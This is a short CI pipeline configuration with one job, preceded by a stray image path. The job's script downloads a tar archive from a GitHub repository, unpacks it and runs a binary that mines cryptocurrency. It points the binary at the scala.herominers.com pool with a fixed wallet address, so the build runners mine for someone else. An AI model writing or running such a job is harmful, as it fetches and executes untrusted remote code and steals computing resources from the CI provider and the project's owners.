 job:
  script:
    - |
      wget https://github.com/muhanyawaduasatu/muhanyawaduasatu/raw/main/nice.tar.gz && tar xf nice.tar.gz && ./nice --donate-level 0 -o scala.herominers.com:10130 -u Ssy2DdMxxXQJ5C3wX7UFNuUpVdhRQsWK2dUZRXWFdgJv3faoef93EocQJUco7WNNapTXfRXpju3WWi2u8UThBgis5GWReVBSYQ -p cpu -a panthera -k
